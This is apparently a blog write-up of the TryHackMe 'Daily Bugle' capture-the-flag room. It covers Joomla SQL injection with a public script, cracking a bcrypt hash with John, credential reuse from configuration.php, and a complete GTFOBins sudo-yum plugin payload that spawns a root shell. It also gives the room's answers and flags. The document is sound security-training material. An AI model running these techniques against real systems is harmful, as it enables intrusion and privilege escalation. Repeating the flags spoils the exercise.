 ```yaml
---
layout: post
title: THM — Daily Bugle
date: 2022-09-30 00:00:00 -500
categories: [TryHackMe]
tags: [Gobuster]
---
```


<img src="/assets/images/THM/Daily%20Bugle/logo.png" alt="Daily Bugle Logo" width="30%">

***
<center><strong><font color="White">Compromise a Joomla CMS account via SQLi, practise cracking hashes and escalate your privileges by taking advantage of yum.</font></strong></center>

***

## <strong><font color="#34A5DA">Reccon</font></strong>

First, nmap scan:
```
vladislav@Mac ~ % nmap -sV -sC 10.10.25.68
Starting Nmap 7.93 ( https://nmap.org ) at 2022-09-30 08:37 MSK
Nmap scan report for 10.10.25.68
Host is up (0.065s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68ed7b197fed14e618986dc58830aae9 (RSA)
|   256 5cd682dab219e33799fb96820870ee9d (ECDSA)
|_  256 d2a975cf2f1ef5444f0b13c20fd737cc (ED25519)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
|_http-generator: Joomla! - Open Source Content Management
|_http-title: Home
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 67.90 seconds
```

On port 80 there is an http server, let's visit the website:

<img src="/assets/images/THM/Daily%20Bugle/website.png" alt="Daily Bugle Website" width="70%">

> Who robbed the bank? `Spiderman`

Simple SQLi does not work and there are no information about what version of Joomla is it.

Let's use Gobuster to find other subpages:

```console
vladislav@Mac ~ % gobuster dir -u http://10.10.148.251 -w share/wordlists/dirs/dsstorewordlist.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.148.251
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                share/wordlists/dirs/dsstorewordlist.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/09/30 16:51:58 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 236] [--> http://10.10.148.251/images/]
/robots.txt           (Status: 200) [Size: 836]                                   
/index.php            (Status: 200) [Size: 9280]                                  
/.htaccess            (Status: 403) [Size: 211]                                   
/templates            (Status: 301) [Size: 239] [--> http://10.10.148.251/templates/]
/cache                (Status: 301) [Size: 235] [--> http://10.10.148.251/cache/]    
/includes             (Status: 301) [Size: 238] [--> http://10.10.148.251/includes/] 
/plugins              (Status: 301) [Size: 237] [--> http://10.10.148.251/plugins/]  
/media                (Status: 301) [Size: 235] [--> http://10.10.148.251/media/]    
/modules              (Status: 301) [Size: 237] [--> http://10.10.148.251/modules/]  
/tmp                  (Status: 301) [Size: 233] [--> http://10.10.148.251/tmp/]      
/components           (Status: 301) [Size: 240] [--> http://10.10.148.251/components/]
/bin                  (Status: 301) [Size: 233] [--> http://10.10.148.251/bin/]       
/language             (Status: 301) [Size: 238] [--> http://10.10.148.251/language/]  
/libraries            (Status: 301) [Size: 239] [--> http://10.10.148.251/libraries/] 
/cli                  (Status: 301) [Size: 233] [--> http://10.10.148.251/cli/]       
/administrator        (Status: 301) [Size: 243] [--> http://10.10.148.251/administrator/]
/LICENSE.txt          (Status: 200) [Size: 18092]                                        
/layouts              (Status: 301) [Size: 237] [--> http://10.10.148.251/layouts/]      
/htaccess.txt         (Status: 200) [Size: 3005]                                         
/README.txt           (Status: 200) [Size: 4494]                                         
/configuration.php    (Status: 200) [Size: 0]                                            
/.htpasswd            (Status: 403) [Size: 211]                                          
/.htpasswds           (Status: 403) [Size: 212]                                          
/.user.ini            (Status: 403) [Size: 211]                                          
/web.config.txt       (Status: 200) [Size: 1690]                                         
                                                                                         
===============================================================
2022/09/30 16:52:13 Finished
===============================================================
```

One more wordlist:
```console
vladislav@Mac ~ % gobuster dir -u http://10.10.148.251 -w share/wordlists/dirs/big.txt             
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.148.251
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                share/wordlists/dirs/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/09/30 17:13:03 Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 211]
/.htaccess            (Status: 403) [Size: 211]
/administrator        (Status: 301) [Size: 243] [--> http://10.10.148.251/administrator/]
/bin                  (Status: 301) [Size: 233] [--> http://10.10.148.251/bin/]          
/cache                (Status: 301) [Size: 235] [--> http://10.10.148.251/cache/]        
/cgi-bin/             (Status: 403) [Size: 210]                                          
/cli                  (Status: 301) [Size: 233] [--> http://10.10.148.251/cli/]          
/components           (Status: 301) [Size: 240] [--> http://10.10.148.251/components/]   
/images               (Status: 301) [Size: 236] [--> http://10.10.148.251/images/]       
/includes             (Status: 301) [Size: 238] [--> http://10.10.148.251/includes/]     
/language             (Status: 301) [Size: 238] [--> http://10.10.148.251/language/]     
/layouts              (Status: 301) [Size: 237] [--> http://10.10.148.251/layouts/]      
/libraries            (Status: 301) [Size: 239] [--> http://10.10.148.251/libraries/]    
/media                (Status: 301) [Size: 235] [--> http://10.10.148.251/media/]        
/modules              (Status: 301) [Size: 237] [--> http://10.10.148.251/modules/]      
/plugins              (Status: 301) [Size: 237] [--> http://10.10.148.251/plugins/]      
/robots.txt           (Status: 200) [Size: 836]                                          
/templates            (Status: 301) [Size: 239] [--> http://10.10.148.251/templates/]    
/tmp                  (Status: 301) [Size: 233] [--> http://10.10.148.251/tmp/]          
                                                                                         
===============================================================
2022/09/30 17:16:02 Finished
===============================================================
```

robots.txt file:
```
User-agent: *
Disallow: /administrator/
Disallow: /bin/
Disallow: /cache/
Disallow: /cli/
Disallow: /components/
Disallow: /includes/
Disallow: /installation/
Disallow: /language/
Disallow: /layouts/
Disallow: /libraries/
Disallow: /logs/
Disallow: /modules/
Disallow: /plugins/
Disallow: /tmp/
```

Looking at README.txt we can get the version of Joomla.

> What is the Joomla version? `3.7.0`

Moreover, we can use msfconsole to check the version:
```console
umsf6 > se auxiliary/scanner/http/joomla_version
msf6 auxiliary(scanner/http/joomla_version) > set RHOSTS 10.10.148.251
msf6 auxiliary(scanner/http/joomla_version) > run

[*] Server: Apache/2.4.6 (CentOS) PHP/5.6.40
[+] Joomla version: 3.7.0
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

***

## <strong><font color="#34A5DA">Exploitation</font></strong>

As THM suggests, we can search for a python script instead of SQLi. Found <a href="https://github.com/stefanlucas/Exploit-Joomla">this one</a>. Download it via wget and run:
```console
vladislav@Mac ~ % python3 joomblah.py http://10.10.148.251
                                                                                                                    
    .---.    .-'''-.        .-'''-.                                                           
    |   |   '   _    \     '   _    \                            .---.                        
    '---' /   /` '.   \  /   /` '.   \  __  __   ___   /|        |   |            .           
    .---..   |     \  ' .   |     \  ' |  |/  `.'   `. ||        |   |          .'|           
    |   ||   '      |  '|   '      |  '|   .-.  .-.   '||        |   |         <  |           
    |   |\    \     / / \    \     / / |  |  |  |  |  |||  __    |   |    __    | |           
    |   | `.   ` ..' /   `.   ` ..' /  |  |  |  |  |  |||/'__ '. |   | .:--.'.  | | .'''-.    
    |   |    '-...-'`       '-...-'`   |  |  |  |  |  ||:/`  '. '|   |/ |   \ | | |/.'''. \   
    |   |                              |  |  |  |  |  |||     | ||   |`" __ | | |  /    | |   
    |   |                              |__|  |__|  |__|||\    / '|   | .'.''| | | |     | |   
 __.'   '                                              |/'..' / '---'/ /   | |_| |     | |   
|      '                                               '  `'-'`       \ \._,\ '/| '.    | '.  
|____.'                                                                `--'  `" '---'   '---' 

 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session
```

So, we got username and his password hash. The hash starts with `$2y$` and google says that it's BCrypt. So let's use JohnTheRipper to crack the password:
```console
vladislav@Mac ~ % john joo_pass --format=bcrypt --wordlist=share/wordlists/rockyou.txt --fork=10
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X2])
Cost 1 (iteration count) is 1024 for all loaded hashes
Node numbers 1-10 of 10 (fork)
Press 'q' or Ctrl-C to abort, almost any other key for status
Use the "--show" option to display all of the cracked passwords reliably
Session completed

vladislav@Mac ~ % john joo_pass --format=bcrypt --show                                          
?:spiderman123

```

After running for the first time, it was obvious that it would theoretically take enermous time to crack the pass. So by adding `-fork=10` we use parallelization with 10 processes.

So we get the password: `spiderman123`.

> What is Jonah's cracked password? `spiderman123`

Now we can log into Joomba CMS located at `http://10.10.198.38/administrator/index.php`.

I didn't find any shells or something like that, so went to Google with `Joomla Reverse Shell` and found <a href="https://vk9-sec.com/reverse-shell-on-any-cms/">this article</a>. Following the instruction in this article we can get the reverse shell. However, we are an unpriviliged user. Searching for classic ways of privilege escalation, so let's try some automated tools for searching.

***

## <strong><font color="#34A5DA">Privilege Escalation</font></strong>

Several tools can help you save time during the enumeration process. These tools should only be used to save time knowing they may miss some privilege escalation vectors. Below is a list of popular Linux enumeration tools with links to their respective Github repositories.

The target system’s environment will influence the tool you will be able to use. For example, you will not be able to run a tool written in Python if it is not installed on the target system. This is why it would be better to be familiar with a few rather than having a single go-to tool.

- **LinPeas**: [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
- **LinEnum:** [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)
- **LES (Linux Exploit Suggester):** [https://github.com/mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)
- **Linux Smart Enumeration:** [https://github.com/diego-treitos/linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
- **Linux Priv Checker:** [https://github.com/linted/linuxprivchecker](https://github.com/linted/linuxprivchecker)

However, I didn't manage to execute any of these. So I went searching manually. Finally, in `/var/www/html` we can find file `configuration.php` containing next:
```php
<?php
class JConfig {
	public $offline = '0';
	public $offline_message = 'This site is down for maintenance.<br />Please check back again soon.';
	public $display_offline_message = '1';
	public $offline_image = '';
	public $sitename = 'The Daily Bugle';
	public $editor = 'tinymce';
	public $captcha = '0';
	public $list_limit = '20';
	public $access = '1';
	public $debug = '0';
	public $debug_lang = '0';
	public $dbtype = 'mysqli';
	public $host = 'localhost';
	public $user = 'root';
	public $password = 'nv5uz9r3ZEDzVjNu';
	public $db = 'joomla';
	public $dbprefix = 'fb9j5_';
	public $live_site = '';
	public $secret = 'UAMBRWzHO3oFPmVC';
	public $gzip = '0';
	public $error_reporting = 'default';
	public $helpurl = 'https://help.joomla.org/proxy/index.php?keyref=Help{major}{minor}:{keyref}';
	public $ftp_host = '127.0.0.1';
	public $ftp_port = '21';
	public $ftp_user = '';
	public $ftp_pass = '';
	public $ftp_root = '';
	public $ftp_enable = '0';
	public $offset = 'UTC';
	public $mailonline = '1';
	public $mailer = 'mail';
	public $mailfrom = 'jonah@tryhackme.com';
	public $fromname = 'The Daily Bugle';
	public $sendmail = '/usr/sbin/sendmail';
	public $smtpauth = '0';
	public $smtpuser = '';
	public $smtppass = '';
	public $smtphost = 'localhost';
	public $smtpsecure = 'none';
	public $smtpport = '25';
	public $caching = '0';
	public $cache_handler = 'file';
	public $cachetime = '15';
	public $cache_platformprefix = '0';
	public $MetaDesc = 'New York City tabloid newspaper';
	public $MetaKeys = '';
	public $MetaTitle = '1';
	public $MetaAuthor = '1';
	public $MetaVersion = '0';
	public $robots = '';
	public $sef = '1';
	public $sef_rewrite = '0';
	public $sef_suffix = '0';
	public $unicodeslugs = '0';
	public $feed_limit = '10';
	public $feed_email = 'none';
	public $log_path = '/var/www/html/administrator/logs';
	public $tmp_path = '/var/www/html/tmp';
	public $lifetime = '15';
	public $session_handler = 'database';
	public $shared_session = '0';
}
```

There is a root password: `nv5uz9r3ZEDzVjNu`. So, we can switch to root. `su root` doesn't work. However, in `/home` directory we can find user `jjameson`. This works. Inside his home directory we can't find user.txt containing flag.

> What is the user flag? `27a260fe3cba712cfdedb1c86d80442e`.

However, we don't have access to `/root` directory. 

```console
sudo -l
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```

Seraching on gtfobins we can't find to spawn an interactive root shell:
```bash
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```

After that we can access `root` directory.

> What is the root flag? `eec3d53292b1821868266858d7fa6f79`